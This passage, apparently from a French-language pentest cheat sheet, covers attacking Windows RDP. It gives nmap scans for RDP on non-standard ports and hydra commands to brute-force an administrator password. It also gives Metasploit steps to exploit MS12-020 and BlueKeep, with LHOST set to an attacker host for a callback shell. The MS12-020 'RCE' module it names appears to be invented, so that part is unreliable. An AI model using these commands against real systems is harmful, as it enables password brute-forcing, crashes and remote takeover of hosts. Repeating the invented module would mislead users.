 ### Scénario 3: RDP sur port non-standard
```bash
# 1. Scan de ports étendu
nmap -p 3389,13389,33389 -sV target

# 2. Si RDP sur port custom
hydra -l administrator -P passwords.txt -s 13389 -t 4 rdp://target

# 3. Connexion sur port custom
xfreerdp /u:administrator /p:password /v:target:13389 /cert-ignore
```

---

## 🚨 7. Vulnérabilités RDP communes

### CVE-2012-0002 (MS12-020)
```bash
# Détection
nmap --script rdp-vuln-ms12-020 -p3389 target

# Exploitation (DoS)
use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
set RHOSTS target
run

# Exploitation (RCE - rare)
use exploit/windows/rdp/ms12_020_netapi
set RHOSTS target
set LHOST attacker_ip
exploit
```

### CVE-2019-0708 (BlueKeep)
```bash
# Détection (Windows 7/2008 vulnérables)
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS target
run

# Exploitation (ATTENTION: peut crasher)
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS target
set LHOST attacker_ip
exploit
```

### Versions Windows vulnérables
| Version | CVE-2012-0002 | CVE-2019-0708 (BlueKeep) |
|---------|---------------|--------------------------|
| **Windows XP** | ✅ Vulnérable | ❌ Non affecté |
| **Windows Server 2003** | ✅ Vulnérable | ❌ Non affecté |
| **Windows Vista** | ✅ Vulnérable | ❌ Non affecté |
| **Windows 7** | ✅ Vulnérable | ✅ Vulnérable |
| **Windows Server 2008** | ✅ Vulnérable | ✅ Vulnérable |
| **Windows 8+** | ❌ Patché | ❌ Non affecté |

---